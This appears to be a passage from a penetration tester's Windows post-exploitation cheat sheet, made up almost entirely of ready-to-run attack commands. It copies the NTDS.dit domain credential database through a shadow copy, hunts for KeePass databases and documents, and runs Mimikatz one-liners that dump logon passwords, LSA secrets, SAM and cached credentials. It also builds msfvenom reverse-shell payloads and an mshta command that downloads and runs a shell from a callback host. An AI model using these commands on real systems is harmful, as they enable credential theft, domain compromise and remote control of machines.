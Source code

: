 ```bash
expose %test% z:
}}}

unix2dos $dsh_file

// on windows target
diskshadow /s $dsh_file
robocopy /b Z:\windows\ntds . ntds.dit

}}}


{{{ =-=awareness =-=

whoami
whoami/priv
dirc:\
dir "C:\ProgramFiles"
dir "C:\ProgramFiles (x86)"
!!look for non-standard bins !!
##if putty
reg query HKCU\Software\SimonTatham\PuTTY /s

dir "C:\Users"
dir "C:\Users\$user"

##mimikatz
privilege::debug
sekurlsa::logonpasswords
##one liner, no winrm
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"


powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue

Get-CimInstance -Classname win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '$service_name'}

}}}



{{{ =-=common =-=


msfvenom -p windows/x64/shell_reverse_tcp LHOST=$cb_ip LPORT=$cb_port -f exe -o reverse.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$cb_ip LPORT=$cb_port -f hta-psh -o shell.hta

##rlwrap for nicer shell
rlwrap nc -lvnp $cb_port
##reverse shell with hta
mshta http://$cb_ip/shell.hta

```